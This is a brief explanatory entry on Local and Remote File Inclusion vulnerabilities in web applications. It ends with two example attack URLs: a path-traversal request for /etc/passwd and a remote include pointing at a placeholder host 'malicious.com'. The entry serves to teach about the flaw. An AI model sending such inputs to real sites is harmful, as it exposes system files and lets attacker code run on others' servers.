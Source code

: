 ##`File inclusion vulnerability`

File Inclusion Vulnerability, often referred to as Local File Inclusion (LFI) or Remote File Inclusion (RFI), is a type of security vulnerability that occurs when a web application allows an attacker to include files on the server through the web browser. This can have serious consequences, potentially leading to unauthorized access, data disclosure, or even remote code execution on the server.

### Example

http://example.com/page.php?file=../../../../etc/passwd

http://example.com/page.php?file=http://malicious.com/malicious-code.php
